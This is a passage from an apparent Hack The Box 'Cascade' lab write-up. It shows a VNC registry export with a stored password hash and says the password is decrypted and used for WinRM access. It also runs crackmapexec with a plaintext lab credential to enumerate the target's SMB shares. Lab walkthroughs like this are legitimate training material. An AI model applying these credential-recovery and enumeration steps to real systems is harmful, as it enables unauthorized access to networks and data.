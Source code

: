 ~~~
"AcceptHttpConnections"=dword:00000001
"LogLevel"=dword:00000000
"EnableFileTransfers"=dword:00000001
"RemoveWallpaper"=dword:00000001
"UseD3D"=dword:00000001
"UseMirrorDriver"=dword:00000001
"EnableUrlParams"=dword:00000001
"Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f
"AlwaysShared"=dword:00000000
"NeverShared"=dword:00000000
"DisconnectClients"=dword:00000001
"PollingInterval"=dword:000003e8
"AllowLoopback"=dword:00000000
"VideoRecognitionInterval"=dword:00000bb8
"GrabTransparentWindows"=dword:00000001
"SaveLogToAllUsersPath"=dword:00000000
"RunControlInterface"=dword:00000001
"IdleTimeout"=dword:00000000
"VideoClasses"=""
"VideoRects"=""
~~~

The file contains a VNC decrypted password, we can use this tool, to decrypt it:

![Screenshot]({{ site.baseurl }}/images/2020-07-25-htb-cascade/img5.png)

With these credentials e can access win-rm and get the user flag:

![Screenshot]({{ site.baseurl }}/images/2020-07-25-htb-cascade/img6.png)

## Root Flag

With the s.smith user, we can access the Audit$ share:

~~~
root@kali:~/Desktop# crackmapexec smb 10.10.10.182 -u s.smith -p sT333ve2 --shares
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 6.1 Build 7601 x64 (name:CASC-DC1) (domailse)
SMB         10.10.10.182    445    CASC-DC1         [+] CASCADE\s.smith:sT333ve2 
SMB         10.10.10.182    445    CASC-DC1         [+] Enumerated shares
SMB         10.10.10.182    445    CASC-DC1         Share           Permissions     Remark
SMB         10.10.10.182    445    CASC-DC1         -----           -----------     ------
SMB         10.10.10.182    445    CASC-DC1         ADMIN$                          Remote Admin
SMB         10.10.10.182    445    CASC-DC1         Audit$          READ            
SMB         10.10.10.182    445    CASC-DC1         C$                              Default share
SMB         10.10.10.182    445    CASC-DC1         Data            READ            
SMB         10.10.10.182    445    CASC-DC1         IPC$                            Remote IPC
SMB         10.10.10.182    445    CASC-DC1         NETLOGON        READ            Logon server share 
SMB         10.10.10.182    445    CASC-DC1         print$          READ            Printer Drivers
SMB         10.10.10.182    445    CASC-DC1         SYSVOL          READ            Logon server share
~~~
